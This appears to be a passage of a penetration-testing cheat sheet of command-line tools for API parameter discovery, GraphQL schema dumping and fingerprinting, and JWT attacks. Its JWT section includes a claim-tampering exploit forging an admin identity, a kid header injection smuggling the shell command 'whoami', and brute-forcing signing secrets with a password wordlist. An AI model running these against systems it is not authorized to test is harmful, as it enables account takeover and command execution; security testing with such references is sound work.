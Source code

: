     :- API POST w/ Auth
    arjun -u https://api.target.com/v1/items -m POST -H "Authorization: Bearer XYZ" -o arjun_api_post_auth.json 

### GraphQL Testing    
    :- Dump schema with auth
    graphqlmap -u https://target.com/graphql --dump-schema --headers "Auth: Bearer TKN" 
    
    :- Custom introspection query
    graphqlmap -u https://target.com/graphql --method query --query '{__schema{types{name}}}' 
    
    :- Schema reconstruction if introspection is disabled
    clairvoyance -o schema_reconstructed.json https://target.com/graphql
    
    :- Use wordlist and header
    clairvoyance -w wordlist_for_graphql.txt -H "X-API-KEY: mykey" https://target.com/graphql 

    
    :- Burp extension, can be used command-line for schema analysis (conceptual)
    inql -t https://target.com/graphql -f schema.json
    
    :- Fingerprint GraphQL engine and dump schema
    graphw00f -t https://target.com/graphql -f -d -o graphw00f_fingerprint.txt 
    
    :- Scan a list of endpoints
    graphw00f -list list_of_graphql_endpoints.txt -o graphw00f_list_scan.txt

### (nuclei has GraphQL templates)    
    nuclei -u https://target.com/graphql -t exposures/graphql/graphql-introspection.yaml -o nuclei_graphql_introspection.txt

## AUTHENTICATION & SESSION TESTING

### JWT (JSON Web Token) Testing    
    :- Tamper alg, change payload claim
    jwt_tool eyJhbGci... --exploit -X a -pc name -pv admin
    
    :- kid header injection for command execution
    jwt_tool eyJhbGci... --exploit -I -hc kid -hv "/dev/null;whoami"
    
    :- Sign with new key (e.g. after alg confusion)
    jwt_tool eyJhbGci... -S hs256 -k "public_key.pem"
    
    :- Verify with public key
    jwt_tool eyJhbGci... -V -pk public_key.pem
    
    :- Add new 'password' claim
    jwt_tool eyJhbGci... -A -p password
    
    :- Decode only
    jwt_tool eyJhbGci... -d

    
    :- Brute force HS256 secret
    crackjwt -t eyJhbGci... -w rockyou.txt -a HS256
    
